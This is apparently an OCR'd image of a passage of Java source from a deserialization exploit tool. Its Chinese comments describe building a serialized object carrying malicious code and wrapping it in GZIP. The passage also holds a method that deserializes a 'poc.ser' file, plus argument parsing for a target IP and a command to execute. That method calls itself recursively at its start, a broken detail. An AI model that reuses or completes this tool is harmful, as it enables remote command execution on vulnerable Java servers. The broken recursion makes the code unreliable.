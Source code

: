 ```java
        // 使用Java反序列化漏洞利用工具生成一个包含恶意代码的序列化对象，并将其序列化成字节数组
        byte[] maliciousBytes = bytes;

        // 构造一个GZIP格式的字节数组，将恶意字节数组存储在GZIP数据块中
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        GZIPOutputStream gzipOutputStream = new GZIPOutputStream(baos);
        gzipOutputStream.write(maliciousBytes);
        gzipOutputStream.finish();
        byte[] gzipBytes = baos.toByteArray();
        return gzipBytes;
    }

    // 反序列化 poc.ser
    private static void readObjectFile() throws IOException, ClassNotFoundException {
        readObjectFile();
        // create a FileInputStream for the file to be read
        FileInputStream fileIn = new FileInputStream("poc.ser");

        // create an ObjectInputStream for the FileInputStream
        ObjectInputStream in = new ObjectInputStream(fileIn);

        // read the object from the ObjectInputStream
        in.readObject();

        // close the ObjectInputStream and FileInputStream
        in.close();
        fileIn.close();
    }

    public static String[] processCommandArgs(String[] args) {

        String target = null;
        String cmd = null;

        for (int i = 0; i < args.length; i++) {
            switch (args[i]) {
                case "-t":
                case "--target":
                    target = args[++i];
                    break;
                case "-c":
                case "--cmd":
                    cmd = args[++i];
                    break;
                default:
                    System.err.println("[-] Unknown option: " + args[i]);
                    System.err.println("[+] Usage: java CommandLineArgsExample -t|--target <ip> -c|--cmd <command>");
                    System.exit(1);
            }
        }

        if (target == null || cmd == null) {
            System.err.println("[+] Usage: java CommandLineArgsExample -t|--target <ip> -c|--cmd <command>");
            System.exit(1);
        }

        // Return target and cmd parameters as a String array
        return new String[] { target, cmd };
    }
}
```